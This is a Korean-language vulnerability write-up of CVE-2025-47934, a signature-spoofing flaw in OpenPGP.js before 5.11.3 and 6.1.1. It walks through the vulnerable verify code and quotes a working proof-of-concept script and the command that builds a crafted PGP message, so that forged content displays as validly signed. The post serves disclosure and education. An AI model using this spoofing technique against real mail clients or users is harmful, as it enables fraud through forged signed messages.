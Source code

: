 
---
title: "[하루한줄] CVE-2025-47934: OpenPGP.js 서명 스푸핑 취약점"
author: OUYA77
tags: [PGP, OpenPGP.js, sign, spoofing, CVE-2025-47934, OUYA77]
categories: [1day1line]
date: 2025-06-12 17:20:00
cc: true
index_img: /img/1day1line.png
---

## URL

- [https://codeanlabs.com/blog/research/cve-2025-47934-spoofing-openpgp-js-signatures/](https://codeanlabs.com/blog/research/cve-2025-47934-spoofing-openpgp-js-signatures/)

## Target

- OpenPGP.js  < v5.11.3
- OpenPGP.js  < v6.1.1

## Explain

OpenPGP.js는 OpenPGP 표준(RFC 9580)을 구현한 자바스크립트 라이브러리로, 암호화된 이메일이나 서명된 Git 커밋 등에 사용됩니다. 이 표준은 메시지 암호화, 서명, 키 관리 기능을 제공합니다. OpenPGP 메시지는 패킷의 시퀀스로 구성되며, 각 패킷은 표준에 정의된 바이너리 프로토콜을 따릅니다. OpenPGP.js는 Mailvelope 및 Proton Mail과 같은 여러 웹 기반 이메일 클라이언트에서 사용됩니다.

PGP 메시지는 여러 패킷의 시퀀스로 구성되며, 각 패킷은 메시지, 서명, 압축 데이터 등 다양한 정보를 담을 수 있습니다. 이 구조적 유연성 때문에 메시지 내부에 불필요한 패킷이 추가될 수 있습니다.

### **root cause & PoC**

OpenPGP.js의 패킷 처리 파이프라인에 존재하는 설계 결함으로 인해, 서명 검증 과정에서 "실제로 서명된 데이터"와 "최종 반환되는 데이터" 간의 불일치가 발생할 수 있습니다. 이는 내부의 **비동기 스트림 파싱 구조와 검증 로직의 미흡한 분리 처리**에 기인합니다.

```jsx
const openpgp = require('openpgp');

(async () => {
    // Generated using:
    //   cat \
    //     <(echo "legitimate" | gpg -s -z0) \
    //     <(printf "\xc8\x12\0\xcb\x0f\x62\0\0\0\0\0malicious") \
    //   | base64
    let armoredMessage = `
-----BEGIN PGP MESSAGE-----

kA0DAAoW1Fu2hl5UcsoByxFiAGhBNptsZWdpdGltYXRlCoh1BAAWCgAdFiEEXSzQbblMQiJ8GaYN
1Fu2hl5UcsoFAmhBNpsACgkQ1Fu2hl5UcsqE0QD/bsWYHJrrrK8RM8VgB4Z3K64zWfp49BOi+x0s
9VJKyRoBALJdQhGzPwCERCANPR+KdX5ZdrX54ZpY9mriFG6O4hsFyBIAyw9iAAAAAABtYWxpY2lv
dXM=
-----END PGP MESSAGE-----`;

    // public key of thomas@codean.io
    const publicKeyArmored = `
-----BEGIN PGP PUBLIC KEY BLOCK-----

mDMEZSAfBhYJKwYBBAHaRw8BAQdAfdgd2yxL+pYN91ENyp/VZVdWXLjYDONG47jM
4dDZDMG0IFRob21hcyBSaW5zbWEgPHRob21hc0Bjb2RlYW4uaW8+iI8EExYIADcW
IQRdLNBtuUxCInwZpg3UW7aGXlRyygUCZSAfBgUJBaOagAIbAwQLCQgHBRUICQoL
BRYCAwEAAAoJENRbtoZeVHLKpvIBANiaDeLPyaQyHkuzB8T6ZqvfJi4dXNlsqT2F
dlUUip4ZAQDSAljghQC9jAQu8I8yMrQJd4SXD1EMH+NLNNYCDEZCC7g4BGUgHwYS
CisGAQQBl1UBBQEBB0DOFmUm2nMIda8PzTquulLLy/bFwDtSqAiK1EBqEdvbaAMB
CAeIfgQYFggAJhYhBF0s0G25TEIifBmmDdRbtoZeVHLKBQJlIB8GBQkFo5qAAhsM
AAoJENRbtoZeVHLKCE8BAJEXE6za1G6pFpaZWKBRMlCbBDSE4rc7iEn5MpC56WtQ
AQCnVhRNYBjQ7Bo/VX1rx2+6wx84EXOFmoW80F96QmN0Bw==
=Obk+
-----END PGP PUBLIC KEY BLOCK-----`;

    const publicKey = await openpgp.readKey({ armoredKey: publicKeyArmored });
    const message = await openpgp.readMessage({ armoredMessage });
    const verificationResult = await openpgp.verify({ message, verificationKeys: publicKey });

    console.log(`Signed message data: ${verificationResult.data}`);
    const { verified, keyID } = verificationResult.signatures[0];
    try {
        await verified; // throws on invalid signature
        console.log(`Verified signature by key id ${keyID.toHex()}`);
    } catch (e) {
        throw new Error(`Signature could not be verified: ${e.message}`);
    }
})();
```

1. 스트림 파싱의 불완전성

- `openpgp.readMessage()` 함수는 메시지를 파싱할 때 가장 첫 번째 Literal Data 패킷만 읽고 반환합니다.
- 이후에 존재하는 나머지 패킷(예: 악성 데이터)은 읽지 않은 상태로 스트림(메모리)에 남게 되며, 후속 처리가 이루어지지 않습니다.
- 이는 서명 검증 로직이 이후 데이터의 존재 여부를 인지하지 못하도록 우회할 수 있는 기반을 제공합니다.

2. 검증 로직의 취약점

```jsx
  async verify(verificationKeys, date = new Date(), config = defaultConfig) {
    const msg = this.unwrapCompressed(); // [1]
    
    const literalDataList = msg.packets.filterByTag(enums.packet.literalData);
    if (literalDataList.length !== 1) {
      throw new Error('Can only verify message with one literal data packet.');
    }
    
    if (isArrayStream(msg.packets.stream)) {
      msg.packets.push(...await streamReadToEnd(msg.packets.stream, _ => _ || [])); // [2]
    }

    const onePassSigList = msg.packets.filterByTag(enums.packet.onePassSignature).reverse();
    const signatureList = msg.packets.filterByTag(enums.packet.signature);

    // ...
```

- `openpgp.verify()` 호출 시, 내부적으로 `unwrapCompressed()` 함수가 동작하여 압축된 패킷만 찾아 처리합니다( [ 1 ] ).
    - `const msg = this.unwrapCompressed();`: 이 시점에서 `this.packets`은 아직 완전하게 파싱되지 않았으므로, `unwrapCompressed()`는 `Compressed Data` 패킷을 찾지 못하고 `this` (원본 패킷 리스트)를 반환합니다. 따라서 서명 유효성 검사에 사용되는 `literalDataList`는 "legitimate" 데이터를 포함하는 `Literal Data` 패킷이 됩니다.
        
        ```jsx
         unwrapCompressed() {
            const compressed = this.packets.filterByTag(enums.packet.compressedData);
            if (compressed.length) {
              return new Message(compressed[0].packets);
            }
            return this;
          }
        ```
        
- 이때 압축되지 않은 나머지 패킷은 무시되며, 검증 대상에서 제외됩니다.
- 그러나 최종적으로 반환되는 `verificationResult.data`에는 이 **검증되지 않은 패킷의 내용도 포함**될 수 있습니다( [ 2 ]).
    - `msg.packets.push(...await streamReadToEnd(msg.packets.stream, _ => _ || []));` : 이 시점에서 서명 검증이 성공적으로 이루어진 후, 최종적으로 `verificationResult.data`에 실제 메시지 내용을 담기 위해 `streamReadToEnd()`가 호출됩니다. `streamReadToEnd()`가 호출되어 스트림에 남아 있던 모든 패킷(즉, `Signature` 패킷과 `Compressed Data` 패킷)이 `msg.packets` 배열에 추가됩니다. 이제 `msg.packets`는 완전한 공격자의 조작된 패킷 리스트를 포함하게 됩니다.
1. `result.data` 설정 시 `unwrapCompressed()` 재호출 및 악성 데이터 반환

```jsx
    ...
    if (signature) {
      result.signatures = await message.verifyDetached(signature, verificationKeys, date, config);
    } else {
      result.signatures = await message.verify(verificationKeys, date, config);
    }
    result.data = format === 'binary' ? message.getLiteralData() : message.getText();
    ...
```

서명 유효성 검사 자체는 "legitimate" 데이터에 대해 성공적으로 수행됩니다. 그러나 `openpgp.verify()`의 마지막 부분에서 `result.data`를 설정하기 위해 `message.getLiteralData()` (또는 `message.getText()`)가 호출됩니다. 이 함수 역시 `unwrapCompressed()`를 다시 호출합니다. `streamReadToEnd()` 호출로 인해 `msg.packets`가 이제 완전한 패킷 리스트를 포함하므로, `unwrapCompressed()`는 공격자가 삽입한 첫 번째 `Compressed Data` 패킷(악성 "malicious" 데이터를 포함하는)의 내용을 반환하게 됩니다.

결과적으로, OpenPGP.js는 "legitimate" 데이터에 대한 서명을 유효하다고 판단하면서도, 사용자에게는 `verificationResult.data` 또는 `message.getText()`를 통해 "malicious" 데이터를 표시하게 됩니다. 이는 유효한 서명을 가진 메시지의 내용이 공격자에 의해 임의로 조작된 것처럼 보이게 만드는 스푸핑 공격으로 이어집니다. 암호화된 메시지의 경우에도 `openpgp.decrypt()`가 동일한 검증 로직을 사용하므로, 복호화된 데이터는 공격자가 제어하는 "malicious" 페이로드로 반환되지만, 서명 검증 결과는 원본 "legitimate" 페이로드에 대해 계산되어 유효하다고 표시됩니다.

```jsx
Signed message data: malicious
Verified signature by key id d45bb6865e5472ca:
```

공격 시나리오를 간단히 요약하면 이렇게 표현할 수 있습니다.

- 공격자는 정상적인 서명 메시지(예: `"Transfer $100"`에 대한 유효 서명)를 확보한 뒤,
- 해당 메시지 뒤에 추가적으로 악의적인 패킷(예: `"Transfer $10,000"`)을 삽입하여 **하나의 메시지로 구성**합니다.
- 검증 과정에서는 정상 서명된 부분(`"Transfer $100"`)만 검증되며 서명은 "유효"로 표시됩니다.
- 그러나 최종적으로 반환되는 데이터는 **악성 패킷까지 포함한 데이터**로서, 사용자가 보기에는 **정상 서명된 것으로 오인**하게 됩니다.

즉, 공격자는 피해자의 기존 서명을 재사용해 임의의 메시지로 서명을 위조(spoof)할 수 있습니다

## Reference

- [https://github.com/openpgpjs/openpgpjs/security/advisories/GHSA-8qff-qr5q-5pr8](https://github.com/openpgpjs/openpgpjs/security/advisories/GHSA-8qff-qr5q-5pr8)